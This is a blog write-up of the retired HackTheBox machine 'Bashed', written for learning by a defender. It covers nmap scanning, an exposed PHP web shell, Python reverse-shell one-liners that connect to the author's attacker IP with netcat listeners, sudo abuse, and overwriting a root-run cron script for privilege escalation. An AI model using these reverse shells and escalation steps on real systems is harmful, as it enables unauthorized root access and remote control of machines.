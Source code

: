 +++
author = "AJ McQuay"
categories = ["Linux", "HackTheBox"]
date = 2018-05-05T02:47:50Z
description = ""
draft = false
image = "/images/2018/05/htb-1.png"
slug = "hackthebox-bashed"
tags = ["Linux", "HackTheBox"]
title = "HackTheBox Writeup: Bashed"

+++

As a career blue teamer I feel it's important to understand the tools, techniques, and thought processes of an attacker.  The best way to learn is by doing, and one of my favorite ways to practice is [HackTheBox](https://hackthebox.eu).

The machine named *Bashed* was recently retired so walkthroughs for it have been popping up everywhere. This one is mine.

# Recon
As usual with a HackTheBox target system, all you have at the onset is a name and IP address. My starting point is usually an nmap scan against the target machine's IP.

```
nmap -sC -sV -oA nmap 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-12 16:05 EST
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
```


Ok, TCP 80 / HTTP is listening.  There are several options for investigating further, but before opening a web browser I continued with nmap and ran the http-enum script.

```
nmap --script http-enum 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-12 16:07 EST
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
Nmap done: 1 IP address (1 host up) scanned in 46.16 seconds
```

The /dev directory contains a couple of scripts.  Visiting http://10.10.10.68/dev/phpbash.php in a browser presented me with a web shell (!).  I'm able to navigate the file structure and read the contents of /home.  Getting user.txt is a simple exercise at this point.

![bashed_user](/content/images/2018/05/bashed_user.png)

**user = owned**

# Gaining a Foothold

I need to get a "real" shell on the box to go any further. I choose one of my favorite reverse shell one-liners and see if it will work from the PHP web shell.

First, I'll need a listener on my local attacker machine:

```
nc -v -n -l -p 4444
```

Now I drop this python script directly in the web shell.  The ampersand (&) at the end just backgrounds the process.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<my HTB IP address>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
```

Note that the field "my HTB IP address" would be the 10.10.x.x IP assigned to the VPN interface on my machine (usually tap0 on Kali Linux) when I'm connected to the HTB environment, and the port number (4444) is the same one I used to start the netcat listener in the previous step.
    
![bashed_revshell1](/content/images/2018/05/bashed_revshell1.png)
    
Now I have a reverse shell on the target system, but it's still limited. I try using python again to escape to a bash shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![bashed_revshell2](/content/images/2018/05/bashed_revshell2.png)

Great, now I'm at a more typical shell as user www-data.  Time to enumerate.

# Enumeration

I checked many many things, but looking at sudo capabilities turned up some useful information.

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So, my current user (www-data) can run ALL commands as user scriptmanager with no password? I decide to try becoming scriptmanager.

```
www-data@bashed:/var/www/html/dev$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$
```

From the [sudo man page](https://www.sudo.ws/man/1.8.3/sudo.man.html):

> -i [command]
> The -i (simulate initial login) option runs the shell specified by the password database entry of the target user as a login shell. This means that login-specific resource files such as .profile or .login will be read by the shell. If a command is specified, it is passed to the shell for execution via the shell's -c option. ==If no command is specified, an interactive shell is executed.== sudo attempts to change to that user's home directory before running the shell. The security policy shall initialize the environment to a minimal set of variables, similar to what is present when a user logs in. The Command Environment section in the sudoers(5) manual documents how the -i option affects the environment in which a command is run when the sudoers policy is in use.

Bingo, now I'm scriptmanager.  More enumeration.

```
scriptmanager@bashed:/var/www/html/dev$ ls -l /
ls -l /
total 80
drwxr-xr-x   2 root          root           4096 Dec  4 11:22 bin
drwxr-xr-x   3 root          root           4096 Dec  4 11:17 boot
drwxr-xr-x  19 root          root           4240 Jan 12 20:25 dev
drwxr-xr-x  89 root          root           4096 Dec  4 17:09 etc
drwxr-xr-x   4 root          root           4096 Dec  4 13:53 home
lrwxrwxrwx   1 root          root             32 Dec  4 11:14 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4 11:16 lib
drwxr-xr-x   2 root          root           4096 Dec  4 11:13 lib64
drwx------   2 root          root          16384 Dec  4 11:13 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4 11:13 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4 11:18 opt
dr-xr-xr-x 122 root          root              0 Jan 12 20:24 proc
drwx------   3 root          root           4096 Dec  4 13:03 root
drwxr-xr-x  18 root          root            500 Jan 12 20:25 run
drwxr-xr-x   2 root          root           4096 Dec  4 11:18 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4 18:06 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Jan 12 20:24 sys
drwxrwxrwt  10 root          root           4096 Jan 12 21:07 tmp
drwxr-xr-x  10 root          root           4096 Dec  4 11:13 usr
drwxr-xr-x  12 root          root           4096 Dec  4 11:20 var
lrwxrwxrwx   1 root          root             29 Dec  4 11:14 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Strange, ```scripts``` isn't a typical top-level directory and it's owned by scriptmanager. I move into the directory and investigate further.

```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Apr 20 08:14 .
drwxr-xr-x 23 root          root          4096 Dec  4 13:02 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4 17:03 test.py
-rw-r--r--  1 root          root            12 Apr 20 08:18 test.txt
```

Examining these two files leads me to believe that ```test.txt``` containts output from the ```test.py``` script.  However,```test.txt``` is owned by root while the directory it resides in and the ```test.py``` script that generates it are owned by scriptmanager.

This implies that root is executing the script as itself, so the output is written with root ownership. If I can replace ```test.py``` with my own malicious version I can do something on the target machine with root privileges. Reverse shell time!

# Privilege Escalation

```
scriptmanager@bashed:/scripts$ mv test.py old-test.py
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<my HTB IP address>",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

Here I moved/renamed the existing ```test.py``` and created my own with the reverse shell code. This isn't necessary, you could just add the reverse shell bits to the end of the existing file.

Again note the "my HTB IP address field" and port number. I want a second reverse shell that's separate from the one I'm currently working in, so I selected a new port (5555).

I'm not exactly sure how or when root executes the ```test.py``` script.  Given the autonomous nature of these HTB systems I assume it's just a cron job. I start a netcat listener on this new port on my local attacker machine and wait.

After a few minutes...

![94582eeb-e301-49ba-9bf2-64769b24438c](/content/images/2018/05/94582eeb-e301-49ba-9bf2-64769b24438c.png)

**root = owned**

# Conclusion
Looking back Bashed was a pretty simple machine, but there were two primary lessons I learned from it:

1. Look at the simple or obvious things first.  Don't assume every target is going to require some elaborate, complicated method to exploit.
2. Enumerate (a lot) and review the details carefully. It took me way too long to notice the permissions on <code>test.txt</code> and <code>test.py</code>

Did you conquer Bashed using some other method?  Feel free to reach out to me on [Twitter](https://twitter.com/aj_mcquay), I'd love to talk about it.

